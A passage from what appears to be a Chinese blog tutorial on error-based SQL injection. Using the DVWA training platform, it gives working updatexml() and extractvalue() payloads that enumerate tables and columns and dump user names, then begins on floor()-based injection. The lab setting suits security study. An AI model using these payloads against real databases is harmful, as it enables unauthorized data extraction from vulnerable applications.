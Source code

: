 ``` sql
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'),0x7e),1) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429234726269-238529993.png)

**爆数据库内容**

``` sql
1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429235113216-37097958.png)

  
**三、extractvalue（）报错注入实战（基于dvwa平台）**  
extractvalue()函数其实与updatexml()函数大同小异，都是通过xpath路径错误报错，而本人的示例中皆为利用0x7e（~）,其不属于xpath语法格式，因此报出xpath语法错误。

``` sql
1' and extractvalue(1,concat(0x7e,user(),0x7e,database())) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429235938759-455642046.png)

  
``` sql
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200429235922501-214326211.png)

  
``` sql
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430000046889-1274165057.png)

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(user_id,0x7e,first_name,0x3a,last_name) from dvwa.users))) #
```

![](https://img2020.cnblogs.com/blog/1838324/202004/1838324-20200430000313070-1154562360.png)

# floor（）函数报错注入

## 一、概述

原理：利用select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。
